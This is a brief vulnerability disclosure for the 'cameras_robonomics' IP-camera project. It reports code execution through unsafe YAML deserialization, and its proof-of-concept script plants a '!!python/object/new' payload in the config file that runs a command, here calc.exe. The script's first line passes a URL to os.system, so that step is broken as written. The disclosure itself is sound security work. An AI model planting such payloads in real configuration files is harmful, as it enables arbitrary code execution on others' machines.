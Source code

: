 # Description

`cameras_robonomics` is a repo Using Robonomics tools to control IP cameras. The Package is vulnerable to `Arbitrary Code Execution` due to insecure yaml desearilization.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

_steps to reproduce:_
```python
import os

os.system('https://github.com/PaTara43/cameras_robonomics')
os.chdir('cameras_robonomics/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""

open('config/config.yaml','w+').write(payload)
os.system('python3 main.py')
```
* `python3 exploit.py`

# Impact

Arbitrary Code Execution

